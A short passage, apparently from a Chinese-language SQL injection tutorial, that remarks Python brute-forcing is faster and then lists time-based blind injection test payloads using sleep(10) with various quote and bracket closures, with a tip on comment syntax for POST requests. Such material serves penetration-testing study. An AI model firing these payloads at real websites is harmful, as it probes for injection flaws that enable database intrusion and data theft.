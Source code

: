![image](./img/sql4.png)


相对来说，python爆破方式更快一点。

### 时间盲注

**常用判断语句**
`下列语句URL上提交，若post提交需要将--+替换成#`
```
' and if(1=0,1, sleep(10)) --+

" and if(1=0,1, sleep(10)) --+

) and if(1=0,1, sleep(10)) --+

') and if(1=0,1, sleep(10)) --+

") and if(1=0,1, sleep(10)) --+
```

